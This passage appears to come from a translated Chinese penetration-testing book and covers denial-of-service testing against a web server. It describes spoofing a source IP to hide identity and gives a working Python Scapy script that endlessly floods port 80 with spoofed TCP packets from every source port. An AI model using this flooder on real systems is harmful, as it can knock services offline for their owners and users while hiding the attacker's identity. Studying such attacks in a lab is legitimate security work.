单端口单 IP

我使用了一个伪造的 IP 来隐藏我的身份。您必须发送大量数据包来检查 web 服务器的行为。在攻击过程中，尝试打开托管在 web 服务器上的网站。不管它是否有效，把你的发现写在报告里。

让我们检查服务器端的输出：

![](img/70b97414-fd0f-446c-9b49-a4fe423bc6c6.png)

服务器上的 Wireshark 输出

此输出显示我们的数据包已成功发送到服务器。用不同的序列号重复此程序。

# 单 IP，多端口

现在，在这次攻击中，我们使用一个 IP 地址，但使用多个端口。

在这里，我已经编写了`simp.py`程序的代码：

```py
from scapy.all import *

src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")

i=1
while True: 
  for srcport in range(1,65535): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    i=i+1
```

我使用`for`循环来连接端口。让我们检查一下攻击者的输出：

![](img/d28dba77-5745-43db-a692-8d72108dd2f2.png)

